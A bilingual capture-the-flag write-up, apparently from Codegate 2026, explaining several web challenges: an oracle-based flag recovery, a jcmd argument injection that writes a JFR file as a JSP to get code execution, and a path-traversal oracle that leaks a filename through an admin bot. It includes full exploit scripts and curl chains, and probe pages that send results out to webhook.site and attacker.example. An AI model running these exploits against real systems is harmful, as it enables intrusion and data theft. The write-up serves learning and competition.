所以 `resume` 本身就是一个可重复利用的 4-gram oracle。

Therefore, `resume` itself is a reusable 4-gram oracle.

##### **Recovering The Flag**

附件里的 seed 给出了假格式：

The seed in the attachment gives a false format: 

```Plain
analyst handoff export codegate2026{f46e201da62830c0f777855b}
```

题目也明确说附件中的 flag 不是真实 flag，因此可以合理假设真实值仍然以：

The question also clearly states that the flag in the attachment is not the real flag, so it is reasonable to assume that the real value still starts with: 

```Plain
codegate2026{
```

开头。

Beginning.

之后按 4-gram 扩展即可：

Then expand by 4-gram: 

1. 取当前已知串的最后 3 个字符。

   Take the last 3 characters of the currently known string. 

2. 枚举下一个字符 `0123456789abcdef}`。

   Enumerate the next character`0123456789abcdef}`. 

3. 请求 `/mail/queue/resume/{wid}?rv={rv}&q={last3+c}`。

4. 哪个返回“matching workspace fragment”，哪个就是下一个字符。

   Whichever returns "matching workspace fragment" is the next character.

5. 一直跑到 `}`。

   runs all the way to `}`. 

脚本逻辑如下：

The script logic is as follows: 

```Python
import http.client, urllib.parse

wid = "042c05491d036377"
rv = "357049d534e4a662c84ecae9"
flag = "codegate2026{"
alphabet = "0123456789abcdef}"
match = b"A matching workspace fragment can be promoted from archived context."

conn = http.client.HTTPConnection("3.38.145.205", 18080, timeout=10)

def has(fragment: str) -> bool:
    path = f"/mail/queue/resume/{wid}?rv={rv}&q=" + urllib.parse.quote(fragment, safe="")
    conn.request("GET", path, headers={"Connection": "keep-alive"})
    resp = conn.getresponse()
    data = resp.read()
    return resp.status == 200 and match in data

while not flag.endswith("}"):
    base = flag[-3:]
    hits = [c for c in alphabet if has(base + c)]
    assert len(hits) == 1
    flag += hits[0]

print(flag)
```

输出为：

Output is:

```Plain
codegate2026{7b25762168e3299248273782}
```

##### **Conclusion**

这题的真正难点有两个：

There are two real difficulties in this question: 

1. `reviewLink` 绕过必须走“全角点 + IPv6 literal”这条 Linux 上稳定成立的路径。

   `reviewLink` bypasses the path that must follow the "full corner + IPv6 literal" route, which is stably established on Linux.

2. 还必须处理浏览器对 IPv4-mapped IPv6 的 origin 规范化，否则利用链只会停在第一跳。

   Must also handle the origin normalization of IPv4-mapped IPv6 by browsers; otherwise, the exploitation chain will only stop at the first hop.

拿到 `wid/rv` 之后，后半段基本就是一个标准的滑动窗口 oracle 恢复问题。

After obtaining ` wid/rv `, the second half is basically a standard sliding window oracle recovery problem. 

最终 flag：

Final flag:

```Plain
codegate2026{7b25762168e3299248273782}
```

### **Juice of Apple, Vegetable, Apricot**

1. 利用 `Runtime.exec(String)` 的参数切分特性，通过 `pid` 参数把 `/api/status` 变成任意 `jcmd` 执行器。

   Utilize` the parameter splitting feature of Runtime.exec(String)`, and turn `/api/status` into an arbitrary `jcmd` executor through the `pid` parameter.

2. 使用 `jcmd JFR.start` 把 JFR 录制结果直接写到 `WEB-INF/views/*.jsp`。

   Use `jcmd JFR.start` to write JFR recording results directly to `WEB-INF/views/*.jsp`. 

3. 让异常消息里携带 JSP XML 表达式，再把这份 JFR 文件当 JSP 访问，实现对 `/readflag` 的执行。

   Let the exception message carry the JSP XML expression, then access this JFR file as a JSP to achieve the execution of `/readflag`.

```Java
<jsp:expression>Runtime.getRuntime().exec("/readflag").inputReader().readLine()</jsp:expression>
```

##### **1.`pid` 参数可注入额外参数** | **1. The `pid` parameter can inject additional parameters**

`StatusServlet.java` 的核心逻辑是：

`StatusServlet.java`'s core logic is:

```Java
String pid = req.getParameter("pid");
String cmd = "jcmd " + pid + " VM.version";
Process p = Runtime.getRuntime().exec(cmd);
```

过滤逻辑在 `InputValidator.java`：

The filtering logic is in ` InputValidator.java `: 

```Java
private static final String BASH_SPECIAL = ";|&$`\\!(){}[]<>*?~^'\"";
```

这里过滤了很多 shell 特殊字符，但 **没有过滤空格**。  

Here, many shell special characters are filtered, but  **spaces are not filtered** . 

而 `Runtime.exec(String)` 并不是把命令交给 shell，而是会自己按空白分词。

However, `Runtime.exec(String)` does not pass the command to the shell but instead splits the command by whitespace on its own.

所以：

Therefore:

```Plain
pid=1 JFR.start duration=3s filename=...
```

最终会被解释为：

will ultimately be interpreted as: 

```Plain
jcmd 1 JFR.start duration=3s filename=... VM.version
```

也就是说，`pid` 参数实际上变成了一个 **\*\*`jcmd` 参数注入点\****。

That is to say, the `pid` parameter actually becomes a **\*\*`jcmd` parameter injection point\*\***. 

##### **2. JFR 文件可以写进 JSP 模板目录** | **2. JFR files can be written into the JSP template directory**

Dockerfile 中有一行非常关键：

There is a very crucial line in the Dockerfile:

```Dockerfile
chmod 1777 work temp logs webapps/ROOT/WEB-INF/views
```

`WEB-INF/views` 是 JSP 模板目录，同时又是 world-writable。  

`WEB-INF/views` is the JSP template directory and is also world-writable. 

因此可以直接让 JFR 把输出文件写进去：

Therefore, JFR can be directly instructed to write the output file into it:

```bash
/usr/local/tomcat/webapps/ROOT/WEB-INF/views/pwn.jsp
```

又因为 Spring 的 `UrlFilenameViewController` 会把：

Also, because Spring's ` UrlFilenameViewController ` will: 

```bash
/pwn.jsp
```

映射到：

Mapped to: 

```bash
/WEB-INF/views/pwn.jsp
```

所以落盘后可以直接通过 HTTP 再次访问这份文件。

Therefore, after writing to disk, this file can be directly accessed again via HTTP. 

##### **3. 通过异常消息注入 JSP 代码** | **3. Inject JSP code through exception messages**

单纯把 JFR 文件写成 `.jsp` 还不够，因为文件主体仍然是二进制。  

Simply writing the JFR file as `.jsp ` is not enough because the file body remains binary. 

必须想办法让其中某一段“可打印文本”变成可执行 JSP 语法。

We must find a way to turn one of the "printable text" segments into executable JSP syntax. 

一开始我尝试的是经典：

At first, what I tried was the classic:

```Java
<%= ... %>
```

短 payload 例如 `<%=2%>` 可以执行，但一旦表达式变长，远端经常会出现：

Short payloads such as `<%=2%>` can be executed, but once the expression becomes longer, the following often occurs on the remote end:

```jsp
Unterminated [<%=] tag
```

说明原始异常消息里的 `<%= ... %>` 经常被截断，不稳定。

indicates that the `<%=... %>` in the original exception message is often truncated and unstable. 

最后稳定可用的是 **JSP XML 语法**：

The last stable and available one is  **JSP XML Syntax** : 

```jsp
<jsp:expression>...</jsp:expression>
```

配合一个原始路径请求：

Coordinate with an original path request: 

```jsp
/<jsp:expression>...</jsp:expression>
```

Tomcat 会在 request target 上抛出：

Tomcat will throw an exception on the request target:

```Plain
Invalid character found in the request target [...]
```

这段异常消息会被 JFR 记录。  

This exception message will be recorded by JFR. 

当录制结果再次作为 JSP 被访问时，其中的 `<jsp:expression>...</jsp:expression>` 会被 Jasper 当成真实 JSP 表达式执行。

When the recorded result is accessed again as a JSP, the `<jsp:expression>...</jsp:expression>` within it will be treated as a real JSP expression by Jasper and executed. 

#### **关键调试结论** | **Key Debugging Conclusions**

##### **1. 长录制会把 JSP 编译打爆** | **1. Long recordings will overload JSP compilation**

如果直接用默认配置并录很久，最终访问生成的 `.jsp` 会报：

If you directly use the default configuration and record for a long time, accessing the generated `.jsp ` will report: 

```Plain
The code of method _jspService(HttpServletRequest, HttpServletResponse) is exceeding the 65535 bytes limit
```

原因很简单：JFR 太大，Jasper 生成的 `_jspService()` 也太大。  

The reason is simple: JFR is too large, and the `_jspService()` generated by Jasper is also too large. 

所以最终必须把录制时间压得很短。

Therefore, the recording time must ultimately be compressed to a very short duration.

我最终使用：

I finally use: 

```Plain
duration=3s
```

这样文件足够小，远端可以成功编译。

With this, the file is small enough for the remote end to successfully compile.

##### **2. 远端副本很容易进入坏状态** | **2. Remote replicas can easily enter a bad state**

反复执行 `jcmd` / `JFR.start` 后，实例会进入一段不稳定期：

After repeatedly executing `jcmd` / `JFR.start`, the instance will enter a period of instability: 

- `/api/status?pid=1` 只回 500

  `/api/status?pid=1` only returns 500

- 或者连接直接被断开

  or the connection is directly disconnected 

题目提示每 15 分钟会重启一次，因此稳定打法是：

The question prompt will restart every 15 minutes, so the stable approach is: 

1. 先轮询 `/api/status?pid=1`

   First polling`/api/status?pid=1`

2. 等某一台恢复正常

   Wait for a device to return to normal 

3. 只打这一台

   Only play this one 

#### **最终利用链** | **Final utilization chain**

##### **Step 1. 选择一台恢复正常的实例** | **Step 1. Select an instance that has returned to normal**

轮询：

Polling:

```Bash
curl -s "http://HOST/api/status?pid=1"
```

如果返回类似：

If the return is similar to: 

```Plain
OpenJDK 64-Bit Server VM version ...
```

说明这台实例已经恢复，可以继续利用。

This indicates that the instance has been restored and can continue to be utilized. 

##### **Step 2. 启动一个极短的 JFR，并把结果写进 JSP 目录** | **Step 2. Start a very short JFR and write the results to the JSP directory**

```Bash
curl -s \
  "http://HOST/api/status?pid=1%20JFR.start%20duration=3s%20filename=/usr/local/tomcat/webapps/ROOT/WEB-INF/views/pwn.jsp%20exceptions=all"
```

注意：这个请求有时会回 500，但录制依然可能已经开始，所以不要只看 HTTP 状态。

Note: This request may sometimes return a 500 error, but recording may still have started, so don't rely solely on the HTTP status.

##### **Step 3. 立刻触发原始路径异常，把 XML JSP 表达式写进 JFR** | **Step 3. Immediately trigger the original path exception and write the XML JSP expression into JFR**

```Bash
curl -s -o /dev/null --path-as-is \
  'http://HOST/<jsp:expression>Runtime.getRuntime().exec("/readflag").inputReader().readLine()</jsp:expression>'
```

这里的思路是：

The idea here is: 

- 先让 Tomcat 因为非法 request target 抛异常

  First, cause Tomcat to throw an exception due to an illegal request target

- 异常消息里原样包含 `<jsp:expression>...</jsp:expression>`

  The exception message contains `<jsp:expression>...</jsp:expression> as is`

- 后续访问 `pwn.jsp` 时，这段表达式就会被真正执行

  When subsequently accessing ` pwn.jsp `, this expression will be actually executed 

##### **Step 4. 等录制结束后取回 flag** | **Step 4. Retrieve the flag after the recording ends**

```Bash
sleep 4
curl -s "http://HOST/pwn.jsp" | strings | grep -oE 'codegate2026\{[^}]+\}'
```

##### **为什么最后会出现 flag** | **Why does the flag appear at the end?**

最终访问 `pwn.jsp` 时，执行流程是：

When finally accessing ` pwn.jsp `, the execution process is: 

1. JFR 文件被当成 JSP 解析。

   JFR files are parsed as JSP.

2. 其中的 `<jsp:expression>...</jsp:expression>` 被执行。

   Among them, `<jsp:expression>...</jsp:expression>` is executed. 

3. 表达式执行 `/readflag`，拿到 `codegate2026{...}`。

   Expression execution`/readflag`, obtaining `codegate2026{...}`.

4. Tomcat 继续生成一份新的错误页。

   Tomcat continues to generate a new error page.

5. `/readflag` 的输出被嵌进错误页正文。

   `/readflag`'s output is embedded in the error page body.

所以最终拿到的并不是命令标准输出的裸回显，而是：

So what is ultimately obtained is not the bare echo of the command's standard output, but rather: 

```Plain
Invalid character found in the request target [/codegate2026{...} ]
```

从这份响应中提取 flag 即可。

Simply extract the flag from this response. 

####  **PoC**

```Bash
#!/bin/bash
hosts=(
  "http://54.180.254.21"
  "http://3.38.197.202"
  "http://16.184.31.100"
)

payload='<jsp:expression>Runtime.getRuntime().exec("/readflag").inputReader().readLine()</jsp:expression>'

while true; do
  for host in "${hosts[@]}"; do
    status="$(curl -m 8 -sS "$host/api/status?pid=1" 2>/dev/null || true)"
    [[ "$status" != *"OpenJDK 64-Bit Server VM"* ]] && continue

    name="p$RANDOM.jsp"

    curl -m 10 -sS \
      "$host/api/status?pid=1%20JFR.start%20duration=3s%20filename=/usr/local/tomcat/webapps/ROOT/WEB-INF/views/$name%20exceptions=all" \
      >/dev/null 2>&1 || true

    sleep 0.5

    curl -m 8 -sS -o /dev/null --path-as-is \
      "$host/$payload" \
      >/dev/null 2>&1 || true

    sleep 4

    flag="$(
      curl -m 10 -sS "$host/$name" \
      | strings \
      | grep -oE 'codegate2026\{[^}]+\}' \
      | head -n 1
    )"

    if [[ -n "$flag" ]]; then
      echo "$flag"
      exit 0
    fi
  done

  sleep 10
done
```

**Flag**

```Plain
codegate2026{54d3fe86a4c14bc667b7ab8326f435997ce4eeb33ade214dc1db6aa949dc78ffa398cd6e90a286a64422fd11768901ffa47c017e8b2c34d317fa547679a1e38b8c6a90}
```

### Memo

首先我们分析源代码

First, we analyze the source code

```
app/src/api/image/image.controller.ts
@Get('/admin')
@UseGuards(AdminGuard)
async getImageAdmin(
    @Query('filename') filename: string,
    @Req() req: Request,
    @Res() res: Response
): Promise<void> {
    const site = req.get('sec-fetch-site');

    if (site !== 'same-origin') throw new HttpException('Unauthorized.', 401);
    if (!filename) throw new HttpException('filename is required.', 400);

    const imagePath = this.imageService.getAdminImagePath(filename);
    if (!imagePath) return;

    return res.sendFile(imagePath);
}
app/src/api/image/image.service.ts
getAdminImagePath(filename: string): string | null {
    const imagePath = this.resolveSafePath(filename);

    if (imagePath && existsSync(imagePath)) return imagePath;

    const files = readdirSync(this.getImageDir());
    const matched = files.find(file => file.startsWith(filename));

    if (!matched) return null;

    return this.resolveSafePath(matched);
}
```

这里有两个重点：

There are two key points here:

- 只有管理员才能访问 `/api/image/admin`
- Only administrators can access`/api/image/admin`
- 但 `filename` 不需要完整文件名，支持 `startsWith(filename)` 前缀匹配
- However, `filename` does not need to be a full file name and supports `startsWith(filename)` prefix matching 

也就是说，只要我们能让管理员 bot 发出一个同源请求，就可以把这个接口变成“前缀是否存在”的判断器。

That is to say, as long as we can make the administrator bot send a same-origin request, we can turn this interface into a judge for "whether the prefix exists". 

```
app/src/public/js/memo-shared.js
const key = params.get("key");
const { result } = await window.appCommon.getJson(`/api/memo/shared/${key}`);
```

这里没有对 `key` 做编码。

There is no encoding for `key` here.

所以如果访问：

So if you visit: 

```Plain
https://nginx/memo/shared?key=../../image/admin?filename=f
```

前端实际会请求：

The front end will actually request: 

```Plain
/api/memo/shared/../../image/admin?filename=f
```

浏览器会把它规范化成：

The browser will normalize it to: 

```Plain
/api/image/admin?filename=f
```

由于这个请求是从 `https://nginx` 页面内部发出的，因此 `Sec-Fetch-Site` 会是 `same-origin`，同时 bot 登录后的管理员 cookie 也会自动带上，于是管理员接口就被成功借用了。

Since this request was initiated from within the `https://nginx` page, `Sec-Fetch-Site` will be `same-origin`, and the administrator cookie after bot login will also be automatically included, so the administrator interface was successfully borrowed.

共享页的逻辑是：

The logic of the sharing page is: 

```JavaScript
const { result } = await window.appCommon.getJson(`/api/memo/shared/${key}`);
if (!result || result.status !== 200) {
  alert((result && result.message) || "Failed to load shared memo.");
  location.href = "/";
  return null;
}
```

而 `getJson()` 内部是：

And ` getJson () ` inside is: 

```JavaScript
const response = await fetch(url, options);
const text = await response.text();
let result = null;

try {
  result = text ? JSON.parse(text) : null;
} catch (error) {
  result = null;
}
```

结合 `/api/image/admin` 的行为，差异如下：

Combined with the behavior of `/api/image/admin`, the differences are as follows:

\- 如果前缀**不存在**：

\- If the prefix  **does not exist** : 

- `getAdminImagePath()` 返回 `null`
- `getAdminImagePath()` returns `null`
- controller 直接 `return`
- controller directly `return`
- 这个请求不会给出正常 JSON 响应，前端 `fetch` 会一直卡住
- This request will not return a normal JSON response, and the front-end `fetch` will be stuck indefinitely 
- 页面停留在当前共享页，不会跳转
- The page remains on the current shared page and does not redirect 

\- 如果前缀**存在**：

\- If the prefix  **exists** : 

- `/api/image/admin` 会返回一张 PNG
- `/api/image/admin` will return a PNG
- `response.text()` 能读到二进制文本，但 `JSON.parse()` 会失败
- `response.text()` can read binary text, but `JSON.parse()` will fail
- `result === null`
- 前端会弹窗，然后 `location.href = "/"` 跳回首页
- The front end will pop up a window, then ` location.href = "/" ` jump back to the home page 

于是我们就得到了一个非常稳定的 oracle：

Thus we obtain a very stable oracle: 

- 共享页只加载一次 -> 前缀不存在
- Shared page is loaded only once -> Prefix does not exist
- 共享页加载后又跳到 `/`，iframe 出现第二次 `load` -> 前缀存在
- After the shared page is loaded, it jumps to `/`, and the iframe has a second `load` -> prefix exists 

#### **Exp**

##### **1. 用外部页面承载探测脚本** | **1. Use an external page to host the detection script**

bot 可以访问任意 `http(s)` URL，所以我构造了一个外部 HTML 页面，让它在浏览器里创建多个 iframe：

The bot can access any ` http(s) ` URL, so I constructed an external HTML page to create multiple iframes in the browser: 

```JavaScript
const tests = [
  "flag_0", "flag_1", ..., "flag_f"
];

for (const prefix of tests) {
  let loads = 0;
  const f = document.createElement("iframe");
  f.style.display = "none";
  f.onload = () => { loads++; };
  f.src =
    "https://nginx/memo/shared?key=..%2F..%2Fimage%2Fadmin%3Ffilename%3D" +
    encodeURIComponent(prefix);
  document.body.appendChild(f);

  setTimeout(() => {
    (new Image()).src =
      "https://attacker.example/oracle?prefix=" +
      encodeURIComponent(prefix) +
      "&loads=" +
      loads;
  }, 9000);
}
```

我这里实际用了 `httpbin.org/base64/...` 来托管一段动态生成的 HTML，用 `webhook.site` 来回收 `loads` 值。

I actually used `httpbin.org/base64/...` to host a dynamically generated HTML, and `webhook.site` to retrieve `loads` values. 

##### **2. 每轮并发测 16 个十六进制字符** | **2. Each round concurrently tests 16 hexadecimal characters**

真实文件名格式来自 Dockerfile：

The real file name format comes from Dockerfile: 

```
app/Dockerfile
RUN if [ -f /app/src/images/FLAG.png ]; then \
    name=$(openssl rand -hex 8) && \
    mv /app/src/images/FLAG.png /app/src/images/flag_$name.png; \
    fi
```

所以目标文件名一定是：

Therefore, the target file name must be:

```Plain
flag_<16 hex>.png
```

##### **Getting the Real Image**

文件名一旦知道，就不需要管理员接口了，直接走公开接口即可：

Once the file name is known, there is no need for the administrator interface; simply use the public interface directly: 

```Plain
GET /api/image?filename=flag_ec59f3f37a84ff4e.png
```

下载图片后做 OCR，得到：

After downloading the image and performing OCR, we obtain:

```Plain
codegate2026{HTTP2_has_many_streams!}
```

#### 最终exp | Final exp

```Python
import argparse
import base64
import json
import secrets
import sys
import time
import warnings
from pathlib import Path

import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning

warnings.simplefilter("ignore", InsecureRequestWarning)

HEX_CHARS = "0123456789abcdef"
DEFAULT_PUBLIC_BASE = "https://3.38.199.85"
DEFAULT_BOT_REPORT = "http://3.38.199.85:5000/report"
DEFAULT_INTERNAL_ORIGIN = "https://nginx"
DEFAULT_PREFIX = "flag_"
DEFAULT_HEX_LEN = 16
DEFAULT_CALLBACK_DELAY_MS = 9000
DEFAULT_ROUND_TIMEOUT = 18.0
DEFAULT_ROUND_GUARD = 21.0

class ExploitError(RuntimeError):
    pass

def log(message: str) -> None:
    print(message, flush=True)

def is_success(status_code: int) -> bool:
    return 200 <= status_code < 300

def make_httpbin_url(html: str) -> str:
    data = base64.b64encode(html.encode()).decode()
    data = data.replace("+", "-").replace("/", "_")
    return f"https://httpbin.org/base64/{data}"

def create_webhook_token() -> str:
    resp = requests.post("https://webhook.site/token", timeout=20)
    resp.raise_for_status()
    return resp.json()["uuid"]

def fetch_webhook_requests(token: str) -> list[dict]:
    resp = requests.get(f"https://webhook.site/token/{token}/requests", timeout=20)
    resp.raise_for_status()
    return resp.json().get("data", [])

def ensure_account(session: requests.Session, public_base: str) -> tuple[str, str]:
    while True:
        username = f"u{int(time.time())}{secrets.token_hex(4)}"
        password = f"p{secrets.token_hex(8)}"
        name = f"n{secrets.token_hex(4)}"
        register = session.post(
            f"{public_base}/api/auth/register",
            json={"username": username, "password": password, "name": name},
            verify=False,
            timeout=20,
        )
        if is_success(register.status_code):
            break
        if register.status_code != 400:
            raise ExploitError(
                f"register failed: {register.status_code} {register.text}"
            )

    login = session.post(
        f"{public_base}/api/auth/login",
        json={"username": username, "password": password},
        verify=False,
        timeout=20,
    )
    if not is_success(login.status_code):
        raise ExploitError(f"login failed: {login.status_code} {login.text}")
    return username, password

def build_probe_html(
    prefixes: list[str],
    capture_token: str,
    internal_origin: str,
    callback_delay_ms: int,
) -> str:
    tests_js = json.dumps(prefixes)
    return f"""<!doctype html><body><script>
const tests = {tests_js};
for (const prefix of tests) {{
  let loads = 0;
  const frame = document.createElement("iframe");
  frame.style.display = "none";
  frame.onload = () => {{ loads++; }};
  frame.src =
    "{internal_origin}/memo/shared?key=..%2F..%2Fimage%2Fadmin%3Ffilename%3D" +
    encodeURIComponent(prefix);
  document.body.appendChild(frame);
  setTimeout(() => {{
    (new Image()).src =
      "https://webhook.site/{capture_token}/oracle?prefix=" +
      encodeURIComponent(prefix) +
      "&loads=" +
      loads;
  }}, {callback_delay_ms});
}}
</script></body>"""

def report_to_bot(bot_report_url: str, page_url: str) -> None:
    resp = requests.post(bot_report_url, json={"url": page_url}, timeout=20)
    if not is_success(resp.status_code):
        raise ExploitError(f"bot report failed: {resp.status_code} {resp.text}")

def pick_winner(items: list[dict]) -> tuple[str | None, dict[str, str]]:
    seen: dict[str, str] = {}
    winner = None
    for item in items:
        query = item.get("query") or {}
        prefix = query.get("prefix")
        loads = query.get("loads")
        if not prefix or loads is None:
            continue
        seen[prefix] = str(loads)
        if str(loads) == "2":
            winner = prefix
    return winner, seen

def run_round(
    current_prefix: str,
    bot_report_url: str,
    internal_origin: str,
    callback_delay_ms: int,
    round_timeout: float,
    round_guard: float,
) -> tuple[str, dict[str, str]]:
    candidates = [current_prefix + c for c in HEX_CHARS]
    capture_token = create_webhook_token()
    html = build_probe_html(
        candidates,
        capture_token=capture_token,
        internal_origin=internal_origin,
        callback_delay_ms=callback_delay_ms,
    )
    page_url = make_httpbin_url(html)

    started = time.monotonic()
    report_to_bot(bot_report_url, page_url)

    winner = None
    seen: dict[str, str] = {}
    deadline = started + round_timeout
    while time.monotonic() < deadline:
        items = fetch_webhook_requests(capture_token)
        winner, seen = pick_winner(items)
        if winner and len(seen) >= len(candidates):
            break
        time.sleep(1.5)

    elapsed = time.monotonic() - started
    if elapsed < round_guard:
        time.sleep(round_guard - elapsed)

    if not winner:
        detail = ", ".join(f"{k}:{v}" for k, v in sorted(seen.items()))
        raise ExploitError(
            f"round failed for prefix {current_prefix!r}; collected: {detail or 'none'}"
        )
    return winner, seen

def download_image(public_base: str, filename: str, output_path: Path) -> None:
    resp = requests.get(
        f"{public_base}/api/image",
        params={"filename": filename},
        verify=False,
        timeout=30,
    )
    if not is_success(resp.status_code):
        raise ExploitError(
            f"download failed: {resp.status_code} {resp.text[:200]!r}"
        )
    output_path.write_bytes(resp.content)

def ocr_image(path: Path) -> str | None:
    try:
        from rapidocr_onnxruntime import RapidOCR
    except Exception:
        return None

    ocr = RapidOCR()
    result, _ = ocr(str(path))
    if not result:
        return None
    return " ".join(item[1] for item in result if len(item) >= 2)

def parse_args() -> argparse.Namespace:
    parser = argparse.ArgumentParser(
        description="One-click exploit for Memo [250]."
    )
    parser.add_argument(
        "--public-base",
        default=DEFAULT_PUBLIC_BASE,
        help=f"Public target base URL (default: {DEFAULT_PUBLIC_BASE})",
    )
    parser.add_argument(
        "--bot-report",
        default=DEFAULT_BOT_REPORT,
        help=f"Bot report endpoint (default: {DEFAULT_BOT_REPORT})",
    )
    parser.add_argument(
        "--internal-origin",
        default=DEFAULT_INTERNAL_ORIGIN,
        help=f"Bot-side internal origin (default: {DEFAULT_INTERNAL_ORIGIN})",
    )
    parser.add_argument(
        "--prefix",
        default=DEFAULT_PREFIX,
        help="Known filename prefix to resume from (default: flag_)",
    )
    parser.add_argument(
        "--hex-len",
        type=int,
        default=DEFAULT_HEX_LEN,
        help="Random hex suffix length (default: 16)",
    )
    parser.add_argument(
        "--callback-delay-ms",
        type=int,
        default=DEFAULT_CALLBACK_DELAY_MS,
        help=f"Oracle callback delay in ms (default: {DEFAULT_CALLBACK_DELAY_MS})",
    )
    parser.add_argument(
        "--round-timeout",
        type=float,
        default=DEFAULT_ROUND_TIMEOUT,
        help=f"Per-round polling timeout in seconds (default: {DEFAULT_ROUND_TIMEOUT})",
    )
    parser.add_argument(
        "--round-guard",
        type=float,
        default=DEFAULT_ROUND_GUARD,
        help=f"Minimum seconds to wait before the next round (default: {DEFAULT_ROUND_GUARD})",
    )
    parser.add_argument(
        "--output",
        default="downloaded_flag.png",
        help="Output image path (default: downloaded_flag.png)",
    )
    parser.add_argument(
        "--skip-ocr",
        action="store_true",
        help="Skip OCR after downloading the image",
    )
    return parser.parse_args()

def main() -> int:
    args = parse_args()
    if not args.prefix.startswith(DEFAULT_PREFIX):
        raise ExploitError("prefix must start with 'flag_' for this script")

    recovered_hex = len(args.prefix) - len(DEFAULT_PREFIX)
    remaining = args.hex_len - recovered_hex
    if remaining < 0:
        raise ExploitError("prefix is longer than expected hex length")

    session = requests.Session()
    username, password = ensure_account(session, args.public_base)
    log(f"[+] account ready: {username}:{password}")

    prefix = args.prefix
    for index in range(remaining):
        round_id = index + 1
        log(f"[+] round {round_id}/{remaining}: probing next nibble for {prefix}")
        winner, seen = run_round(
            prefix,
            bot_report_url=args.bot_report,
            internal_origin=args.internal_origin,
            callback_delay_ms=args.callback_delay_ms,
            round_timeout=args.round_timeout,
            round_guard=args.round_guard,
        )
        prefix = winner
        summary = ", ".join(
            f"{candidate[-1]}:{seen.get(candidate, '?')}"
            for candidate in [prefix[:-1] + c for c in HEX_CHARS]
        )
        log(f"[+] winner => {prefix}")
        log(f"[.] round map: {summary}")

    filename = f"{prefix}.png"
    output_path = Path(args.output).resolve()
    download_image(args.public_base, filename, output_path)
    log(f"[+] filename: {filename}")
    log(f"[+] image saved to: {output_path}")

    if not args.skip_ocr:
        text = ocr_image(output_path)
        if text:
            log(f"[+] OCR: {text}")
        else:
            log("[!] OCR did not return any text")

    return 0

if __name__ == "__main__":
    try:
        raise SystemExit(main())
    except KeyboardInterrupt:
        log("[!] interrupted")
        raise SystemExit(130)
    except ExploitError as exc:
        log(f"[!] {exc}")
        raise SystemExit(1)
```



### **RelayDesk**

#### **Overview**

这题的核心不是直接拿管理员会话，而是利用邮件渲染和 review portal 之间的自动化联动，骗 bot 帮我们取一次性恢复参数，再把隐藏在 workspace archive 里的真实 flag 用 4 字符滑窗 oracle 枚举出来。

The core of this problem is not to directly obtain the administrator session, but to leverage the automated linkage between email rendering and the review portal to trick the bot into retrieving the one-time recovery parameters for us, and then enumerate the real flag hidden in the workspace archive using a 4-character sliding window oracle. 

完整利用链：

Complete utilization chain:

1. 构造 profile，让工单进入可 follow-up 的 handoff 路径。

   Construct a profile to enable the ticket to enter the follow-up handoff path.

2. 第一封 ticket 被 worker 处理后，ticket 进入 `awaiting_reply`。

   After the first ticket is processed by the worker, the ticket enters `awaiting_reply`.

3. 第二封 follow-up ticket 放入满足线程校验的 action card，强制路由到 admin。

   The second follow-up ticket is placed into the action card that meets the thread verification and is forcibly routed to the admin. 

4. 利用 review link 的 host 归一化混淆，把 renderer iframe 的“受信 portal”实际指向攻击者页面。

   By leveraging the host normalization confusion of the review link, the "trusted portal" of the renderer iframe is actually redirected to the attacker's page.

5. 攻击者页面向父窗口发 `relaydesk:resume-ready`，触发父页面请求 `/mail/open/{messageID}?sig=...`。

   The attacker page sends ` relaydesk:resume-ready ` to the parent window, triggering the parent page to request `/mail/open/{messageID}?sig=... `. 

6. 父页面拿到 JSON 里的跳转 URL 后，`window.location.replace(data.url)`，并把 `wid` / `rv` 拼到攻击者 URL 上。

   After the parent page retrieves the jump URL from the JSON, ` window.location.replace(data.url) `, and appends ` wid `/` rv ` to the attacker's URL. 

7. 用拿到的 `wid` / `rv` 请求 `/mail/queue/resume/{wid}?rv=...&q=....`，把 archive 中的真实 workspace context 一段段枚举出来。

   Use the obtained `wid` / `rv` to request `/mail/queue/resume/{wid}?rv=...&q=....`, and enumerate the real workspace context in the archive piece by piece. 

**Source Analysis**

**1. Follow-up mail can reach admin**

在 [main.go](/root/ctf_relaydesk/src/cmd/api/main.go) 里：

- `threadAnchorForSnapshot()` 要求：

  `threadAnchorForSnapshot()` Requirements:

  - queue 是 handoff
  - locale 是 digest
  - locale is digest
  - trace 是 journal
  - customer tier 是 managed
  - bridge mailbox 是 `case-notes@relaydesk.local`

- 满足这些条件后，第一封 ticket 经 worker 处理，会被置为 `awaiting_reply`。

  After meeting these conditions, the first ticket, once processed by the worker, will be set to `awaiting_reply`.

- 第二封 ticket 若 body 里带合法 continuation card，并且 thread id 匹配 subject 的 thread key，就会复用原 ticket，进入 follow-up 路由。

  If the second ticket has a valid continuation card in its body and the thread ID matches the thread key of the subject, it will reuse the original ticket and enter the follow-up routing. 

worker 逻辑在 [worker/main.go](/root/ctf_relaydesk/src/cmd/worker/main.go)：

- `resolveInternalReviewRecipients()` 在 `threaded_handoff` 且 `TrustedReviewMailbox(input)` 为真时，会投递给：

  `resolveInternalReviewRecipients()` will deliver to:`threaded_handoff` and `TrustedReviewMailbox(input)` when true:

  - `operator@relaydesk.local`
  - `admin@relaydesk.local`

因此我们能稳定把第二封邮件送进 admin inbox。

Therefore, we can stably send the second email to the admin inbox. 

**2. Renderer trusts a portal origin derived from the review link**

在 [renderer/main.go](/root/ctf_relaydesk/src/cmd/renderer/main.go)：

- 如果 `messageState.link`、`portal_origin`、`resume_path` 等字段都满足条件，就会创建隐藏 iframe：

  If ` messageState.link `, ` portal_origin `, ` resume_path ` and other fields all meet the conditions, a hidden iframe will be created: 

```JavaScript
reviewFrame = document.createElement('iframe');
reviewFrame.src = String(messageState.link);
```

- renderer 收到来自 iframe 的消息时，只检查：

  When the renderer receives a message from the iframe, it only checks: 

```JavaScript
if (event.origin !== String(messageState.portal_origin || '')) return;
if (!event.data || event.data.type !== 'relaydesk:resume-ready') return;
```

- 一旦命中，就给父页面发：

  Once hit, send to the parent page: 

```JavaScript
window.parent.postMessage({
  type: 'relaydesk:open-linked-workspace',
  resumePath: String(ctx.resume_path),
}, parentOrigin);
```

**3. Parent page fetches protected open endpoint for us**

在 [main.go](/root/ctf_relaydesk/src/cmd/api/main.go) 的 `viewPage`：

```JavaScript
const res = await fetch(next, {
  method: 'GET',
  credentials: 'include',
  headers: {'Accept': 'application/json'}
});
...
window.location.replace(data.url);
```

这里 `next` 必须以 `/mail/open/` 开头，但真正的请求是父页面以管理员身份发出的。也就是说，只要 renderer 给出 `relaydesk:open-linked-workspace`，父页面就会代取受保护接口。

